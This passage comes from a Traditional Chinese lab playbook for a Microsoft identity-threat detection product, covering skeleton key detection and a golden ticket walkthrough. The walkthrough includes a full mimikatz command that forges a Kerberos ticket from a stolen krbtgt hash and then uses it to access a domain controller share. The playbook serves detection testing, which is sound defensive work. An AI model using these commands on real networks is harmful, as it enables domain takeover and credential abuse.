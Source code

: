 > [!Important]
> 請務必在執行基本架構金鑰攻擊之後，重新啟動 ContosoDC。 如果沒有這樣做，ContosoDC 上的 LSASS.exe 處理程序將會遭到修補並修改，進而將每個驗證要求降級至 RC4。

### <a name="skeleton-key-attack-detection-in-product-short"></a>[!INCLUDE [Product short](includes/product-short.md)] 中的基本架構金鑰攻擊偵測

在所有這一切發生的時候，[!INCLUDE [Product short](includes/product-short.md)] 會偵測並報告什麼？

![由[!INCLUDE [Product short](includes/product-short.md)] 偵測到的基本架構金鑰攻擊](media/playbook-dominance-skeletonkey_detected.png)

[!INCLUDE [Product short](includes/product-short.md)] 成功偵測到用於此使用者的可疑預先驗證加密方法。

### <a name="golden-ticket---existing-user"></a>黃金票證 - 現有的使用者

在攻擊者竊取「黃金票證」(在[這裡透過惡意複寫](#malicious-replication)所述的 "krbtgt" 帳戶) 之後，其便能以「如同自己是網域控制站一般」的方式簽署票證。 **Mimikatz** 、網域 SID，以及遭竊的 "krbtgt" 帳戶全部都是完成這種攻擊所必需。 我們不僅可以為使用者產生票證，還可以為甚至不存在的使用者產生票證。

1. 以 JeffL 的身分，在 **VictimPC** 上執行下列命令，以取得網域 SID：

   ```dos
   whoami /user
   ```

    ![黃金票證使用者的 SID](media/playbook-dominance-golden_whoamisid.png)

1. 找出並複製以上螢幕擷取畫面中反白顯示的網域 SID。

1. 使用 **mimikatz** 搭配複製的網域 SID，以及所竊取 "krbtgt" 使用者的 NTLM 雜湊來產生 TGT。 以 JeffL 身分，將下列文字插入至 cmd.exe：

   ```dos
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

    ![產生黃金票證](media/playbook-dominance-golden_generate.png)

   命令的 `/ptt` 部分可讓我們立即將產生的票證傳遞至記憶體。

1. 請確定認證位於記憶體中。  在主控台中執行 `klist`。

    ![傳遞產生的票證後的 klist 結果](media/playbook-dominance-golden_klist.png)

1. 以攻擊者的身分，執行下列的傳遞票證命令，以對 DC 使用它：

   ```dos
   dir \\ContosoDC\c$
   ```

   成功！ 您為 SamiraA 產生了 **假的** 黃金票證。

    ![透過 mimikatz 執行黃金票證](media/playbook-dominance-golden_ptt.png)

它為什麼可行？ 黃金票證攻擊可行是因為產生的票證是使用我們先前收集到的 'KRBTGT' 金鑰正確地簽署。 此票證可讓我們以攻擊者的身分取得對 ContosoDC 的存取權，並將自己新增至任何我們想要使用的安全性群組。
